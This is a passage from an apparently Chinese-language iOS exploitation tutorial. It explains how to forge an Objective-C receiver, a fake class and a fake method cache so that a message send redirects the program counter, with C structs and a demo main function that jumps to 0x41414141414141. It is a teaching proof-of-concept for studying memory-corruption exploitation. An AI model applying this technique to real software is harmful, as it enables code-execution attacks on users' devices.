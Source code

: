 * * *

正如我之前提到的，如果我们可以伪造一个ObjC对象，然后构造一个假的cache的话，我们就有机会控制PC指针了。既然如此我们就来试一下吧。首先我们需要找到selector在内存中的地址，这个问题可以使用`NSSelectorFromString()`这个系统自带的API来解决，比如我们想知道”release”这个selector的地址，就可以使用`NSSelectorFromString(@"release")`来获取。

随后我们要构建一个假的`receiver`，假的`receiver`里有一个指向假的`objc_class`的指针，假的`objc_class`里又保存了假的`cache_buckets`的指针和`mask`。假的`cache_buckets`的指针最终指向我们将要伪造的`selector`和`selector`函数的地址：

```
struct fake_receiver_t
{
    uint64_t fake_objc_class_ptr;
}fake_receiver;

struct fake_objc_class_t {
    char pad[0x10];
    void* cache_buckets_ptr;
    uint32_t cache_bucket_mask;
} fake_objc_class;

struct fake_cache_bucket_t {
    void* cached_sel;
    void* cached_function;
} fake_cache_bucket;

```

接下来我们在main函数中尝试将talker这个receiver改成我们伪造的receiver，然后利用伪造的”release” selector来控制PC指向`0x41414141414141`这个地址：

```
int main(void) {

    Talker *talker = [[Talker alloc] init];
    [talker say: @"Hello, Ice and Fire!"];
    [talker say: @"Hello, Ice and Fire!"];
    [talker release];

    fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
    NSLog(@"cached_sel = %p", NSSelectorFromString(@"release"));

    fake_cache_bucket.cached_function = (void*)0x41414141414141;
    NSLog(@"fake_cache_bucket.cached_function = %p", (void*)fake_cache_bucket.cached_function);

    fake_objc_class.cache_buckets_ptr = &fake_cache_bucket;
    fake_objc_class.cache_bucket_mask=0;

    fake_receiver.fake_objc_class_ptr=&fake_objc_class;
    talker= &fake_receiver;

    [talker release];
}

```
